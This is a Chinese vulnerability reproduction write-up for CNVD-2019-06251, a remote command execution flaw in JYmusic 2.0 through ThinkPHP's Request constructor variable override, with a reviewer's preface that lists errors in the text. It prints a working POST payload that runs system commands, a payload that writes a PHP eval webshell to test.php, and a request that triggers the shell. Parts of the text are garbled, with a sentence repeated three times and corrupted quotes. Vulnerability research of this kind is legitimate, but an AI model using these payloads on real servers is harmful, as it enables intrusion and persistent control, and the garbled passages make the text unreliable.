## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：ThinkPHP Request构造方法覆盖版本/路由可达；Windows dir/echo仅示例环境

- **操作与副作用边界（1）**：实际是ThinkPHP_method/__construct变量覆盖链，应关联框架而非独立JY逻辑。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **证据待核（2）**：run/routeCheck叙述整句重复三次且chekc拼错；前图指1.x头像漏洞资源。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **证据待核（3）**：首页POST与POST/captcha入口混写；末尾回车导致失败结论未给依据；shell写入弯引号损坏。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（4）**：未给具体ThinkPHP版本和补丁范围。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CNVD-2019-06251）JYmusic 2.0 命令执行漏洞
===========================================

一、漏洞简介
------------

CNVD-2019-06251

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

#### 危险函数

/core/library/think/Request.php类中的filterValue函数中，使用了call\_user\_func函数。

通过构造使得\$filter=system， \$value=dir
，通过call\_user\_func函数即可执行系统命令" dir "。

#### array\_walk\_recursive函数

/core/library/think/Request.php类中的input函数里调用了通过array\_walk\_recursive函数调用了filterValue函数。array\_walk\_recursive()
函数对数组中的每个元素应用用户自定义函数。



#### input函数

/core/library/think/Request.php中的param函数调用了input函数。





#### exec 函数

/core/library/think/App.php类中的exec
函数通过Request::instance()-\>param()调用了param函数。



#### run函数

/core/library/think/App.php类中的run函数则调用了exec函数



传入的dispatch和dispatch和dispatch和config两个参数分别来自于/core/library/think/App.php类中run函数里的：





#### 变量覆盖

/core/library/think/App.php类中run函数里，获取dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过request-\>method()调用了method函数。

/core/library/think/Request.php类中，通过post参数\_method=\_\_construct调用构造函数：



在构造函数里用filter=system覆盖类中的filter变量。



post参数 method=GET
就是要再次调用method函数，并且使得if(true===\$method)为真，从而获取
\_SERVER\[REQUEST\_METHOD\]=dir 这个参数值。



#### 调用入口

/core/library/think/App.php类中的run函数，则是在index.php入口函数中调用。

### 漏洞复现

#### 拦截首页请求，Change request method修改请求方式为POST

#### 参数：



POST的参数的作用已在漏洞分析环节分析。
filter=system&\_SERVER\[REQUEST\_METHOD\]=dir&\_method=\_\_construct&method=GET
POST参数后不能有\\r\\n回车换行，如果有就不能成功执行。 POST /captcha
HTTP/1.1 //请求一个验证码，引导程序的运行步骤。

#### 写入shell



    filter=system&_SERVER[REQUEST_METHOD]=echo “<?php @eval($_GET["test"]) ?>” >test.php&_method=__construct&method=GET

#### phpinfo()



    http://0-sec.org/test.php?test=phpinfo(); 

    //末尾一定要跟一个“分号” “ ; ” ，如果没有则不能成功执行。

四、参考链接
------------

> <https://blog.csdn.net/yun2diao/article/details/91345116>
